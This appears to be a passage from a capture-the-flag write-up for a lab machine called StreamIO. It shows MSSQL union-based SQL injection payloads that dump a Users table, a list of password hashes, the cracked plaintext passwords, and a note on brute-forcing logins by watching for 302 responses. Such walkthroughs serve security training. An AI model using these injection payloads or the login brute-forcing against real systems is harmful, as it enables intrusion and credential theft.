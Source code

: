 ```python
8097cedd612cc37c29db152b6e9edbd3
925e5408ecb67aea449373d668b7359e
b22abb47a02b52d5dfa27fb0b534f693
b779ba15cedfd22a023c4d8bcf5f2332
b83439b16f844bd6ffe35c02fe21b3c0
bf55e15b119860a6e6b5a164377da719
c660060492d9edcaa8332d89c99c9239
d62be0dc82071bccc1322d64ec5b6c51
dc332fb5576e9631c9dae83f194f8e70
ec33265e5fc8c2f1b0c137bb7b3632b5
ee0b8a0937abd60c2882eacb2f8dc49f
ef8f3d30a856cf166fb8215aca93e9ff
f03b910e2bd0313a23fdd7575f34a694
f87d3c0d6c8fd686aacc6627f1f493a5
fd78db29173a5cf701bd69027cb9bf6b
--------------------------------

# Extract columns from table Users and table Streamio
q=Gone'union select '1',name,'3','4','5','6' FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')-- x

# Extract users from Users
q=Gone'union select '1',concat(id,username,password,is_staff),'3','4','5','6' from Users-- x
```

Dumped credentials table:

![Untitled](StreamIO/Untitled%208.png)

Cracking the admin password:

![Untitled](StreamIO/Untitled%209.png)

All cracked hashes

```python
highschoolmusical
physics69i
66boysandgirls..
%$clara
$monique$1991$
$hadoW
$3xybitch
##123a8j8w5123##
!?Love?!123
!5psycho8!
!!sabrina$
```

This post request is used to validate the credentials doing a login with the obtained credentials in a recursive way, if the credential is valid, the return will be 302

![Untitled](StreamIO/Untitled%2010.png)
